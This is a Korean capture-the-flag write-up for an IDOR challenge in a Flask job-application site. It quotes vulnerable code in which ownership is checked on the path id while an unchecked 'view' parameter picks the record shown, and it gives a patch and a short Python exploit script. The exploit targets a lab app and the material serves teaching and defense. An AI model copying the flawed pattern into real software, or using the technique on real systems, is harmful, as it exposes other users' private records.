





# easy-02 — 내 원서 다시 보기 (IDOR) 풀이

## 1. 문제 개요

| 항목 | 내용 |
|---|---|
| 분류 | Web / 접근 제어 — IDOR(Insecure Direct Object Reference) |
| 난이도 | Easy |
| 접속 | `http://<출제조IP>:8001` |
| 시작 | 회원가입으로 계정 생성 (일반 신청자) |
| 플래그 형식 | `GlassHouse{...}` (신청서 `id=50` 의 `major` 필드) |

**최종 목표:** "내 신청서만 볼 수 있는" 시스템에서, 정체불명의 신청자가 낸 **남의 신청서(`id=50`)의 내용**을 열람해 그 안에 적힌 플래그를 획득한다. 상세 조회가 **보여줄 객체를 소유권과 분리해서** 결정하는 허점을 노린다.



최종 경로: **내 신청서로 소유권 통과 → `view` 파라미터로 남의 신청서 바꿔치기(IDOR).**

---

## 2. 의도한 풀이 과정 (요약)

1. 로그인 후 `/mypage` 에는 내 신청서만 보이고, `/applications/50`(남의 것)을 직접 열면 **403** 이다. → "소유권 검사가 있다"를 확인한다.
2. 상세 조회가 경로의 `id` 와 **별개로 `view` 쿼리 파라미터**가 가리키는 신청서를 렌더함을 발견한다. 소유권은 경로 `id` 에만 걸려 있다.
3. 403 통과용으로 **내 소유 신청서 1장**(`/apply`)을 만든다.
4. `/applications/<내신청서>?view=50` 으로, 소유권은 내 것으로 통과시키고 **렌더 대상만 남의 것(50)으로 바꿔치기**한다 → 플래그.

각 단계의 "왜/무엇을 확인했는지"는 3~4절에서 코드와 함께 설명한다.

---

## 3. 초기 분석과 단서

### 3-1. 소유권 개념이 있다
`routes/mypage.py` 의 목록은 **본인 신청서만** 거른다.
```python
applications = [a for a in data.APPLICATIONS.values()
                if a["user_id"] == user_id]
```
→ "신청서는 소유자 단위로 관리되고, 남의 것은 기본적으로 안 보인다."

### 3-2. 정상 동작 확인 — 내 것은 열리고, 남의 것은 막힌다
상세 URL 이 `/applications/<숫자>` 형태 → **직접 객체 참조**. 번호만 바꾸면 다른 신청서를 가리킬 수 있는 구조(IDOR 냄새).
- `/applications/51`(내 신청서)은 정상적으로 **내 내용**이 열린다.
- `/applications/50`(남의 것)을 바로 열면 **403**.

→ "경로 id 에 소유권 검사가 걸려 있다. 그럼 이 검사를 건드리지 않고 다른 신청서를 보는 방법은?"




### 3-3. 상세 조회가 `view` 파라미터를 받는다
소스를 보면 상세가 `request.args.get("view")` 로 **렌더 대상 신청서를 따로 받는다**. → "소유권은 경로 id 로 검사하는데, 실제로 보여주는 건 view 로 정해진다면? 둘을 분리하면 뚫린다."

---

## 4. 취약점의 원인과 성립 조건

**코드 위치:** `routes/mypage.py` 의 `detail()`
```python
@bp.get("/applications/<int:app_id>")
def detail(app_id):
    user_id = session.get("user_id")
    ...
    application = data.APPLICATIONS.get(app_id)
    if application["user_id"] != user_id:                 # (A) 경로 app_id 에만 소유권 검사
        abort(403)
    view_id = int(request.args.get("view", app_id))       # (B) 렌더 대상은 view 로 결정
    target = data.APPLICATIONS.get(view_id, application)   # (C) view_id 에는 아무 검사 없음
    return render_template("mypage/detail.html", application=target)
```
- **원인:** 소유권 검사(A)는 **경로 `app_id`** 에만 적용되는데, 실제로 렌더되는 객체는 **`view` 파라미터(B·C)** 로 결정된다. `view_id` 에는 소유권/권한 검사가 전혀 없다 → 임의 신청서 열람(IDOR).

### 한 줄씩 따라가기 — 공격 URL `/applications/51?view=50`
먼저 파이썬 `.get(키, 기본값)` 문법: **"키가 있으면 그 값, 없으면 기본값을 돌려준다".**

```python
app_id = 51                                        # URL 경로의 숫자
application = data.APPLICATIONS.get(app_id)         # application = 51번(내 것)

if application["user_id"] != user_id:   # 검사 대상 = application(=51, 내 것) → 통과 ✅
    abort(403)

view_id = int(request.args.get("view", app_id))    # (B)
target  = data.APPLICATIONS.get(view_id, application)  # (C)
return render_template("mypage/detail.html", application=target)  # 출력 대상 = target
```
- **(B)** `request.args.get("view", app_id)` = "URL 쿼리에서 `view` 를 찾아라. 있으면 그 값, 없으면 `app_id`(51)." → `?view=50` 을 넣었으니 `"50"`, `int()` 로 숫자 **`view_id = 50`**. (view 를 안 넣으면 기본값 51 이 되어 내 것이 열림 = 정상.)
- **(C)** `data.APPLICATIONS.get(view_id, application)` = "전체 신청서에서 `50` 번을 찾아라. 있으면 그거, 없으면 `application`(내 51번)." → 50 번이 있으니 **`target` = 남의 신청서(50)**.

### 왜 뚫리나 — 검사한 변수 ≠ 출력한 변수
| 단계 | 쓰는 변수 | 값 | 하는 일 |
|---|---|---|---|
| 소유권 검사 | `application` | **51 (내 것)** | `!=` 검사를 여기에 함 → 통과 |
| 화면 출력 | `target` | **50 (남의 것)** | 실제 렌더는 여기를 함 → 플래그 |

소유권 검사는 `application`(=경로 51, 내 것)만 보고 "51은 네 거 맞네" 하고 끝난다. 그런데 정작 화면에 뿌리는 건 `target`(=`view` 50, 남의 것)이다. **검사받은 번호(51)와 보여지는 번호(50)가 분리**되어, 소유권 검사가 출력에 아무 힘을 못 쓴다. 공격자는 `?view=50` 으로 (B)의 기본값(내 것)을 밀어내고 출력 대상만 50 으로 갈아끼운 것이다.

- **성립 조건:**
  1. 로그인 상태(세션 `user_id`).
  2. 경로 `app_id` 는 **내가 소유한** 신청서 id (403 통과용) → 내 신청서 1장 필요.
  3. `view` 는 정수. 목표 객체 `50` 지정.



---

## 5. 풀이 결과

### 성공 판별 기준
1. `/applications/50` 직접 접근은 **403**.
2. 내 신청서 1장 생성 후 `/applications/<내것>?view=50` 응답이 **id=50 신청서**(소속 "Flag!!", 사연 "SUCCESS Find FLAGG")로 바뀐다.
3. 좌석(`major`) 자리에 `GlassHouse{...}` 가 렌더된다.

### 최종 출력 예시 (로컬 검증)
```
0) signup / login:              302
1) POST /apply (내 신청서 51):  302
2) GET /applications/51:         200  -> 내 신청서(내 소속·사연)
3) GET /applications/51?view=50: 200  -> 내용이 id=50 으로 바뀜, FLAG 노출
```

**핵심은 대조다.** 3-2 에서 본 내 신청서(`/applications/51`)와 **같은 URL**인데, `?view=50` 하나만 붙이면 소유권은 그대로 통과(51)하고 **렌더 내용만 남의 것(50)으로 바뀐다** — 소속 "Flag!!", 사연 "SUCCESS Find FLAGG", 좌석 자리에 플래그.



**플래그:** `GlassHouse{...}`
> 실제 값은 배포본 `.env` 의 `FLAG_IDOR`(변수명 변경 시 해당 이름)를 따른다.

---

## 6. 패치 방안과 검증

### 패치 — 렌더 대상에 소유권 검사
경로 id 와 view id 를 분리하지 말고, **실제로 보여줄 객체 하나**에 소유권을 검사한다.
```python
@bp.get("/applications/<int:app_id>")
def detail(app_id):
    user_id = session.get("user_id")
    if user_id is None:
        return redirect(url_for("auth.login"))
    application = data.APPLICATIONS.get(app_id)
    if application is None:
        abort(404)
    if application["user_id"] != user_id:   # 렌더 객체에 대해 검사
        abort(403)
    return render_template("mypage/detail.html", application=application)
```
→ `view` 파라미터 기능을 제거한다. 꼭 필요하면 `target["user_id"] != user_id` 를 **다시** 검사한다.

### (부가) 500 방어
`int(request.args.get("view", app_id))` 는 숫자가 아닌 `view` 에 `ValueError`(500)를 낸다. → `request.args.get("view", type=int)` + None 처리.

### 검증 방법
- (음성) 패치 후 `/applications/<내것>?view=50` → **403**(남의 것 차단).
- (양성) `/applications/<내것>` → 내 신청서만 정상 표시.
- IDOR 재현 불가 확인.

---

## 7. 익스플로잇 코드

```python
#!/usr/bin/env python3
# easy-02 (내 원서 다시 보기 / IDOR) - view 파라미터로 남의 신청서(id=50) 열람
# 사용: python3 exploit.py http://<IP>:8001
import re, sys, requests

BASE = sys.argv[1].rstrip("/") if len(sys.argv) > 1 else "http://127.0.0.1:8001"
s = requests.Session()

# 0) 회원가입 + 로그인 (일반 계정)
s.post(f"{BASE}/signup", data={"username": "hacker1", "password": "pw1234",
        "password_confirm": "pw1234", "name": "h", "email": "h@h.com"})
s.post(f"{BASE}/login", data={"username": "hacker1", "password": "pw1234"})

# 1) 내 소유 신청서 1장 생성 (403 통과용 app_id 확보)
s.post(f"{BASE}/apply", data={"school": "a", "major": "a", "intro": "a"})
mine = re.findall(r"/applications/(\d+)", s.get(f"{BASE}/mypage").text)[0]
print(f"[*] 내 신청서 id = {mine}")

# 2) 소유권은 내 것으로 통과, 렌더는 view=50 으로 바꿔치기 (IDOR)
r = s.get(f"{BASE}/applications/{mine}?view=50")
m = re.search(r"GlassHouse\{[^}]*\}", r.text)
print(f"[+] FLAG: {m.group(0)}" if m else "[-] 실패")
```

**실행 예시**
```bash
$ python3 exploit.py http://127.0.0.1:8001
[*] 내 신청서 id = 51
[+] FLAG: GlassHouse{...}
```

---

## 부록 — 전체 경로 한 줄 요약
```
회원가입/로그인 → /applications/50 직접접근 403 (경로 id 소유권 검사 확인)
  → /apply 로 내 신청서(51) 생성 (403 통과용)
  → /applications/51?view=50 (소유권=내것 통과, 렌더=view_id 50, 검사 없음 = IDOR)
     → id=50 신청서 major 필드의 GlassHouse{...} 유출
```

---

## 캡처 체크리스트 (images/ 에 저장)
- `01-mypage-own.png` — 로그인 후 `/mypage`, 내 신청서만 보이는 화면
- `02-direct-403.png` — `/applications/50` 직접 접근 → 403(Forbidden)
- `03-idor-code.png` — `routes/mypage.py` 의 `detail()` (view_id 소유권 미검사 부분 하이라이트)
- `04-own-detail.png` — `/applications/51` 내 신청서 정상 상세 → **3-2 정상 동작**에 배치 (대조용)
- `05-flag.png` — `/applications/51?view=50` → 내용이 50번으로 바뀌고 플래그 노출 → **5 풀이 결과**